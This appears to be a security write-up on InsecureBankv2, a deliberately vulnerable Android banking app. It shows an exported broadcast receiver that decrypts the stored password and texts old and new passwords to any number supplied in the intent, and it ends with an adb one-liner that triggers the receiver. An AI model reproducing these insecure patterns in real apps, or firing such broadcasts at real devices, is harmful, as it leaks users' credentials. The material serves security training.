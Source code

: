 ## Broadcast Receivers

> app/src/main/AndroidManifest.xml

```
<receiver android:exported="true" android:name="com.android.insecurebankv2.MyBroadCastReceiver">
	<intent-filter>
		<action android:name="theBroadcast"/>
	</intent-filter>
</receiver>
```

> app/src/main/java/com/android/insecurebankv2/ChangePassword.java

```
private void broadcastChangepasswordSMS(String phoneNumber, String pass) {
if(TextUtils.isEmpty(phoneNumber.toString().trim())) {
System.out.println("Phone number Invalid.");
}
else
{
Intent smsIntent = new Intent();
smsIntent.setAction("theBroadcast");
smsIntent.putExtra("phonenumber", phoneNumber);
smsIntent.putExtra("newpass", pass);
sendBroadcast(smsIntent);
}
}
```

> app/src/main/java/com/android/insecurebankv2/MyBroadCastReceiver.java

```
public void onReceive(Context context, Intent intent) {
	String phn = intent.getStringExtra("phonenumber");
	String newpass = intent.getStringExtra("newpass");

	if (phn != null) {
		try {
			SharedPreferences settings = context.getSharedPreferences(MYPREFS, Context.MODE_WORLD_READABLE);
			final String username = settings.getString("EncryptedUsername", null);
			byte[] usernameBase64Byte = Base64.decode(username, Base64.DEFAULT);
			usernameBase64ByteString = new String(usernameBase64Byte, "UTF-8");
			final String password = settings.getString("superSecurePassword", null);
			CryptoClass crypt = new CryptoClass();
			String decryptedPassword = crypt.aesDeccryptedString(password);
			String textPhoneno = phn.toString();
			String textMessage = "Updated Password from: "+decryptedPassword+" to: "+newpass;
			SmsManager smsManager = SmsManager.getDefault();
			System.out.println("For the changepassword - phonenumber: "+textPhoneno+" password is: "+textMessage);
			smsManager.sendTextMessage(textPhoneno, null, textMessage, null, null);
		} catch (Exception e) {
			e.printStackTrace();
		}
	}
	else {
		System.out.println("Phone number is null");
	}
}
```

- `adb shell am broadcast -n com.android.insecurebankv2/.MyBroadCastReceiver -a theBroadcast --es phonenumber 5554 --es newpass hacked`

